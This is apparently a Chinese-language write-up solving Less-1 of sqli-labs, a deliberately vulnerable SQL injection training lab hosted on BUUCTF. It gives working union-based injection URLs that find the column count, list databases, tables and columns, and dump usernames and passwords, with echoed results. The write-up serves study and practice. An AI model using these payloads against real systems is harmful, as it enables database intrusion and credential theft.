

## sqli-libs

以下覆盖了基本的解法，如果遇到对应的题目，可以尝试下面解法。

[github](https://github.com/Audi-1/sqli-labs)

[BUUCTF](https://buuoj.cn/challenges#sqli-labs)

### Less-1 (GET - 基于错误的字符串注入)

1. 因为知道这里是有漏洞的，那就先猜字段数，这里传递 3 是正常的，传递 4 报错，因此字段数为 3.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' order by 3 --+
```

2. 接下来使用联合查询，看看能不能回显信息.

```bash
http://d83b1fd5-8cf3-4432-8298-910dffdeaed0.node5.buuoj.cn/Less-1?id=1' and 1=2 union select 1,"哈哈",2--+
```

> and 1=2 表示让前面的语句失效



3. 接下来可以进一步获取一些数据库信息。比如查找所有的数据库。

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
```

回显结果如下

> Your Login name:ctftraining,information_schema,mysql,performance_schema,security,test

1. 查看数据库内的表名称

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+
```

> Your Login name:emails,referers,uagents,users

5. 查看`users`表的列名

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3 --+
```

> Your Login name:id,username,password,ip,time,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password

6. 查看用户名密码

```bash
/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```


这道题就解决了。